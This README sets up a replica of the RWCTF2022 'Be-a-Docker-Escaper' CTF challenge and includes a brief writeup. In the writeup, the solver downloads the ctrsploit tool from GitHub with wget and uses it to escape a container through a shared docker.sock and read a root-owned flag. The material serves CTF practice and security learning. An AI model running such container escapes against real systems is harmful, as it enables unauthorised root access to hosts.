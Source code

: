 # RWCTF2022: Be-a-Docker-Escaper

Unofficial Copies from https://github.com/WinMin/Be-a-Docker-Escaper/tree/main/Be-a-Docker-Escaper

* dqd:
    * ssst0n3/docker_archive:be-a-docker-escaper -> ssst0n3/docker_archive:be-a-docker-escaper_v0.1.0
    * ssst0n3/docker_archive:be-a-docker-escaper_v0.1.0
* ctr:
    * ssst0n3/docker_archive:ctr_be-a-docker-escaper -> ssst0n3/docker_archive:ctr_be-a-docker-escaper_v0.1.0
    * ssst0n3/docker_archive:ctr_be-a-docker-escaper_v0.1.0

## usage

### Recommend

```shell
$ cd ctf/Be-a-Docker-Escaper
$ docker compose -f docker-compose.yml -f docker-compose.kvm.yml up -d
```

### Without kvm

KVM can speed up the environment, but it can also be started without KVM.

```shell
$ cd ctf/Be-a-Docker-Escaper
$ docker compose -f docker-compose.yml up -d
```

## writeup

```
$ sshpass -p ctf ssh -o StrictHostKeyChecking=no -p 25115 ctf@127.0.0.1
/ # wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O /usr/bin/ctrsploit
/ # chmod +x /usr/bin/ctrsploit
/ # ctrsploit vul shared-socket docker.sock c
[Y]  docker.sock	# escape by shared docker socket

/ # ctrsploit vul shared-socket docker.sock x
# cat /root/flag
cat /root/flag
rwctf{THIS_IS_A_TEST_FLAG}
```

## challenge description

Do you want to be a docker escaper? So you need to be patient. It takes minutes for me to get a docker ready for you. I can’t make it faster without kvm, but I think you can do it locally. from: SpaceSkyNet

## build

```shell
make all DIR=ctf/Be-a-Docker-Escaper
```

for developers:

```dockerfile
FROM ssst0n3/docker_archive:ctr_be-a-docker-escaper_v0.1.0
```
